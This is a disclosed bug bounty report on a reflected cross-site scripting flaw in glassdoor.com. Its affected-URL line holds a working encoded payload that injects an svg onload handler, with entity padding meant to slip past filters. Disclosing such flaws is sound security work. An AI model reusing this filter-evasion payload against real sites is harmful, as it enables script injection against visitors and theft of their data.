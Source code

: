 # XSS in www.glassdoor.com

## Report Details
- **Report ID**: 1695989
- **URL**: https://hackerone.com/reports/1695989
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-09-09T12:15:47.094Z
- **Disclosed**: 2022-09-16T20:10:14.969Z

## Reporter
- **Username**: seifelsallamy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: glassdoor

## Vulnerability Information
**Summary:**
Browser: Chrome
Affected URL https://www.glassdoor.com/Location/All-Tesla-Office-Locations-E43129.htm?DIFFICULT=%3E%3Csvg%20onload%3d%26%23x00000000061;%26%23x0000000006c%26%23x0000000065%26%23x0000000072%26%23x00000000074(1%26%230000000000000041;%20%3C%2fscript%20

## Steps To Reproduce:
  1. Go to the affected URL

## Supporting Material/References:
Attached an image ███

## Impact

Leaking users data and and modify the webpage.

## Attachments
No attachments
